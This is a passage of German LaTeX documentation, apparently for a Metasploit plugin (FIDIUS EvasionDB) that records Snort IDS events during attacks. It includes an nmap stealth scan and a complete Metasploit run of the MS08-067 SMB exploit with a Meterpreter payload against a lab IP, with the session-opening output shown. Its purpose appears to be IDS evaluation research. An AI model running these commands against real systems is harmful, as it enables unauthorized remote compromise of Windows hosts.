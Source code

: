 \textbf{sudo nmap -T polite -sN -PN -p 3306 10.20.20.1}

\begin{verbatim}
  0 events generated
\end{verbatim}

\subsection{Snortor Verwendung}
\label{snortor-usage}

\begin{lstlisting}
  msf > load evasiondb loading snort_fetcher
  [*] EvasionDB plugin loaded.
  [*] Successfully loaded plugin: FIDIUS-EvasionDB
\end{lstlisting}
\
\textit{import\_rules} liest alle Regeln in die EvasionDB ein. Dies
kann auch remote über SCP stattfinden, wenn die Verbindungsdaten
konfiguriert sind. Es muss zuerst ein Import stattfinden, bevor ein
Set von Aktiv/Inaktiv geschalteten Regeln einem Exploit hinzugefügt
werden kann.

\begin{lstlisting}
  msf > import_rules
  msf > Import needed 1.695100059 seconds
\end{lstlisting}

Es wird normal ein Exploit ausgeführt.

\begin{lstlisting}
  msf > use exploit/windows/smb/ms08_067_netapi
  msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
  PAYLOAD => windows/meterpreter/bind_tcp
  msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
  RHOST => 10.20.20.1 msf
  exploit(ms08_067_netapi) > exploit
  [*] Started bind handler
  [*] Automatically detecting the target...
  [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
  [*] Selected Target: Windows XP SP2 German (NX)
  [*] Attempting to trigger the vulnerability...
  [*] Sending stage (749056 bytes) to 10.20.20.1
  [*] Meterpreter session 1 opened (10.0.0.100:37383 -> 10.20.20.1:4444) at 2011-06-09 14:41:28 +0200

  meterpreter > exit

  [*] Meterpreter session 1 closed.  Reason: User exit
\end{lstlisting}

Die EvasionDB speichert alle generierten IDMEF-Events zu dem Angriff.

